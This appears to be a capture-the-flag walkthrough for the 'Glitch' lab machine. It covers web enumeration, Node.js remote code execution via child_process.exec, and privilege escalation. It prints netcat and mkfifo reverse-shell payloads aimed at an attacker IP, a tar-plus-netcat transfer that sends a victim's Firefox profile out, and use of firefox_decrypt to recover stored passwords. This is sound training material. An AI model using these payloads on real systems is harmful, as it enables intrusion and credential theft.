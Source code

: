 ```yaml
---
layout: post
permalink: /posts/thm/glitch
title: "GLITCH"
---
```


Challenge showcasing a web app and simple privilege escalation. Can you find the glitch?

Scan the target machine with nmap

```
nmap -sC -sV <IP>
```

![nmap](/assets/images/thm/glitch/nmap.png)

There is open port 80 HTTP. We can scan for any hidden directories. I'm going to use gobuster.

```
gobuster dir -u http://<IP> -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -x txt,php
```

While we are waiting the result scan from gobuster we can visit this web application.

![webpage](/assets/images/thm/glitch/webpage.png)

There is nothing interesting, let's review the source code `Ctrl + U` or you can also add `view-source:` at the beginning of the url

```
view-source:http://10.10.163.30/
```

![source-code](/assets/images/thm/glitch/source-code.png)

There is a java script code with a function `getAccess()` which calls the method `fetch()`. The Fetch API is a modern interface that allows you to make HTTP requests to servers from web browsers(for more additional information you can visit <https://www.javascripttutorial.net/javascript-fetch-api/>). In general fetch method makes a request to `/api/access` endpoint and the result of this request is send to the console log. Meanwhile the gobuster scan has finished.

![gobuster](/assets/images/thm/glitch/gobuster.png)

I have visit `/secret` directory but it looks the same as the root directory.

![secret](/assets/images/thm/glitch/secret.png)

Anyways... let's execute the getAccess function. Open the browser's developer tool by pressing `f12` and navigate to `Console` tab. Now just execute the function.

![console-log](/assets/images/thm/glitch/console-log.png)

It returns a token with base64 encoded value. Use the following command to decode it.

```
echo dGhpc19pc19ub3RfcmVhbA== | base64 -d
```

The result is: `this_is_not_real`. Now in Developer tool navigate to `Storage` and change the token's value with the found one and refresh the page.

![token](/assets/images/thm/glitch/token.png)

Check the source code again.

![source-code-token](/assets/images/thm/glitch/source-code-token.png)

There is a script.js, let's visit it.

![script](/assets/images/thm/glitch/script.png)

The script in general populate the page with elements from `/api/items` endpoint. You can check them by visiting `view-source:http://<IP>/api/items`

I have been stuck here for a while and wasn't sure what to do. Secret directory didn't show anything even after we had set the token. I have looked at the hint and I realized that we need to play with different requests. For some information about the different HTTP methods visit: <https://assertible.com/blog/7-http-methods-every-web-developer-should-know-and-how-to-test-them>

Now open Burp Suite and catch the request from our target and send it to Repeater.

![burp-catch](/assets/images/thm/glitch/burp-catch.png)

Now from Repeater tab change the GET request to POST

![burp-post](/assets/images/thm/glitch/burp-post.png)

Good, we have received a message. In general POST requests are used to send data and these data take place in the body request. However we can send a POST request without a body and instead use query string parameters. To find this parameter we need to fuzz the request, we can use Intruder mode of the Burp Suite but it is slow, so I'm going to use wfuzz for that purpose.

```
wfuzz -z file,/usr/share/wordlists/SecLists/Discovery/Web-Content/common.txt --hc 400 -X POST http://<IP>/api/items?FUZZ=value
```

where

```
-z : specify the payload
--hc : hide responses with the specified code
```

![wfuzz](/assets/images/thm/glitch/wfuzz.png)

I don't know why it returns some of the results which result is 400 but anyways, we have found the query parameter `cmd`. It looks that we should be able to execute some commands, so I tried to execute `id` command.

![burp-cmd](/assets/images/thm/glitch/burp-cmd.png)

Unfortunately we received an error. I made some research and I found these articles: <https://medium.com/@sebnemK/node-js-rce-and-a-simple-reverse-shell-ctf-1b2de51c1a44> and <https://www.truesec.com/hub/blog/reverse-shell-through-a-node-js-math-parser>

In general it's a vulnerability that allows unauthenticated remote code execution. First thing that I tried, was to check whether I would be able to execute commands, Using `process.cwd()` we can see the current working directory. Let's try it.

![burp-cwd](/assets/images/thm/glitch/burp-cwd.png) 

Here we go... the command was successfully executed. Now, let's try to execute a reverse shell. First start a listener on your attacking machine.

```
nc -lvnp 4444
```

I have first tried with netcat with the following modules:

```
require("child_process").exec('nc <IP> 4444 -e /bin/bash')
```

Note that we need to encode the command, you can use this site for that purpose <https://meyerweb.com/eric/tools/dencoder/>

```
require("child_process").exec('nc%2010.10.41.235%204444%20-e%20%2Fbin%2Fbash')
```

The command was executed successfully but we weren't able to get shell.

![burp-nc](/assets/images/thm/glitch/burp-nc.png) 

So I decided to test with mkfifo.

```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc <IP> 4444 >/tmp/f
```

and again encode the payload

```
require("child_process").exec('rm%20%2Ftmp%2Ff%3Bmkfifo%20%2Ftmp%2Ff%3Bcat%20%2Ftmp%2Ff%7Csh%20-i%202%3E%261%7Cnc%2010.10.41.235%204444%20%3E%2Ftmp%2Ff')
```

![burp-mkfifo](/assets/images/thm/glitch/burp-mkfifo.png)

We were able to get the reverse shell. Now we need to escalate our privileges but let's first spawn tty.

```
python3 -c "import pty;pty.spawn('/bin/bash')"
ctrl+z
stty raw -echo
fg
```

I checked whether the cuurent user has any rights to execute commands as root with the following command `sudo -l` but we do not have a password. In addition I checked whether there are any scripts run as cron job by reading `/etc/crontab` but unfortunatelly there is nothing there. Finally I searched for files with SUID bit set, which allows us to run a file with the same permissions as the owner of the file.

```
find / -type f -perm -u=s 2>/dev/null
```

![suid](/assets/images/thm/glitch/suid.png)

`/usr/local/bin/doas` this looks interesting. Based on this article <https://book.hacktricks.xyz/linux-hardening/privilege-escalation#doas> `doas` is alternative of `sudo`. I wasn't able to find the configuration here: `/etc/doas.conf`, so I searched for it through the system.

```
find / -type f -name doas.conf 2>/dev/null
```

![doas-config](/assets/images/thm/glitch/doas-config.png)

It looks that the user `v0id` has the permission to execute this command which means we need to escalate our privileges to `v0id` first. In the current user's home directory we can find hidden directory `firefox`.

![user-home](/assets/images/thm/glitch/user-home.png)

Based on the following article <https://support.mozilla.org/en-US/kb/profiles-where-firefox-stores-user-data> it's a profile folder where firefox stores user's bookmark's, passwords and other user data. Again using hacktricks as a reference <https://book.hacktricks.xyz/generic-methodologies-and-resources/basic-forensic-methodology/specific-software-file-type-tricks/browser-artifacts#firefox> we can use <https://github.com/unode/firefox_decrypt> to decrypt the master password.

Now, we need to download firefox folder on our attacking machine. I was able to start python server on the target machine using `python -m SimpleHTTPServer 8000` but I was not able to download the folder on my attacking machine. It looks that it is filtered.

![filtered](/assets/images/thm/glitch/filtered.png)

The other method that we can transfer the directory is through netcat, but netcat can transfer files, so we need to convert the folder into an archive.

Start listener on your attacking machine and store the result into a file.
```
nc -lvp 1234 > firefox_archive
```

On the target machine archive the folder and send it through netcat.
```
tar -cf firefox-archive .firefox/
nc -vn <ATTACKING_MACHINE_IP> 1234 < firefox-archive
```

![transfer](/assets/images/thm/glitch/transfer.png)

Now clone firefox decryption tool and get master password.

```
git clone https://github.com/unode/firefox_decrypt.git
cd firefox_decrypt
python3.9 firefox_decrypt.py ../.firefox/b5w4643p.default-release/
```

![master-password](/assets/images/thm/glitch/master-password.png)

Well done. Let's try to switch to `v0id` user using the found password.

![switch](/assets/images/thm/glitch/switch.png)

As we already know that this user can execute `doas` command, let's escalate our privileges to root.

```
doas /bin/bash
```

![root](/assets/images/thm/glitch/root.png)